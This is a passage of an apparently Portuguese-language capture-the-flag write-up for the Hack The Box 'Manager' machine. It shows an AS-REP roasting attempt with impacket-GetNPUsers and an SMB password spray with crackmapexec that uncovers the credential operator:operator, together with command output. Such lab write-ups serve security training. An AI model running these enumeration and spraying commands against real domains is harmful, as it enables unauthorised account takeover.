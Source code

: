 Criei uma user list com os usuários listados.

Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
Administrator
zhong
cheng
ryan
raven
jinWoo
chinHae
operator
administrator

Checando se é possível obter alguma hash com ataque `ASREPRoasting`.

### impacket-GetNPUsers

```shell
╰─ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.236 manager.htb/ -format john -usersfile users.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Zhong doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Cheng doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Raven doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User ChinHae doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Operator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
{: .nolineno }
Bruteforce com a wordlist de usuários com users list user:password

```shell
╭─      ~/HTB/manager                           INT ✘ 
╰─ crackmapexec smb manager.htb -u users.txt -p users.txt
SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\zhong:cheng STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\zhong:ryan STATUS_LOGON_FAILURE 
<snip>
SMB         manager.htb     445    DC01             [-] manager.htb\operator:cheng STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\operator:ryan STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\operator:raven STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\operator:jinWoo STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\operator:chinHae STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [+] manager.htb\operator:operator 
```
{: .nolineno }